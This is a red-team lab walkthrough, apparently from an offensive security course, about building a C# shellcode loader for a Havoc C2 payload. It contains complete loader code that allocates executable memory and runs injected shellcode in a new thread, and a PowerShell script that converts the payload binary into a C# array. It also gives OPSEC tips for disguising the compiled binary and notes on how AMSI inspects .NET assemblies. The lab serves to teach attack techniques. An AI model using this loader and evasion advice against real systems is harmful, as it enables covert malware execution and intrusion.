 # Lab - Shellcode


> OPSEC HINT : Let's apply some basic best practices when we compile the following code
> 1. add and icon file to the dotnet app.
> 2. add metadata
> 4. Remove comments
> 3. compile with CSC

When compiling the dotnet code you can specify the .net version
```powershell

```

We'll need the .Net Developer Pack 4.8, let's see if it is installed:

```cmd
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Version
```

CSC.exe is located in "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe"


>HINT : Remember that AMSI will behave differently with .net assemblies than it would when using powershell scripts. In a powershell script amsi.?dll is automatically loaded into powershell, with dotnet assemblies AMSI will interact with the CLR on demand.

Let's generate a Havoc shellcode payload (on `KALI` using the Havoc GUI):

Screenshots + xxd (hexview) payload.

Switch to your windows and under `"C:\THEV\Labs\LocalLoader"` you'll find a csharp solution file - open that with Visual Studio 2022.

We'll now build our own custom (but very basic) shellcode loader in CSHARP (= dotnet assembly).

```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodePayload
{
    class Payload
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main()
        {
            // (1) insert our shellcode
            byte[] shellCode = new byte[] { /* insert shellcode here */ };

            // (2) allocate memory for shellcode
            UInt32 MEM_COMMIT = 0x1000;
            UInt32 PAGE_EXECUTE_READWRITE = 0x40;
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            // (3) inject shellcode into allocated memory
            Marshal.Copy(shellCode, 0, funcAddr, shellCode.Length);

            // (4) execute injected shellcode
            UInt32 threadId = 0;
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

----
Here's a small shellcode formatter toos in powershell, it converts a binary file to csharp:

```powershell
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
```

---
Hooka

Donut